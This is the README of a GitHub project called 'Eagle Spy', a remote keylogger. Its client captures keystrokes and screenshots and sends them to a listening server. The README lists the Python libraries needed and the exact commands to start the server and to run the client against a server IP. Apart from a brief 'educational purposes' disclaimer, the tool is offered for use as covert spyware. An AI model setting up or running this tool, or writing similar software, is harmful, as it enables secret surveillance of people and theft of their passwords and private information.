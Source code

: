 # k4_spy

# Eagle Spy - Educational Remote Logger

Created by: kader11000

## Files
- `EagleSpyClient.py`: The client that captures keystrokes and screenshots, sends to server.
- `EagleSpyServer.py`: The server that receives and displays keylogs and screenshots.
- `README.txt`: This file.

## Requirements
Install the required libraries:
```
pip install flask requests pynput pyautogui
```

## Usage

### 1. Run the server:
```
python EagleSpyServer.py 0.0.0.0 5000
```

### 2. Run the client (on another machine or same machine for testing):
```
python EagleSpyClient.py <server-ip> 5000
```

Replace `<server-ip>` with your actual IP or domain name.

Enjoy responsibly for educational purposes.
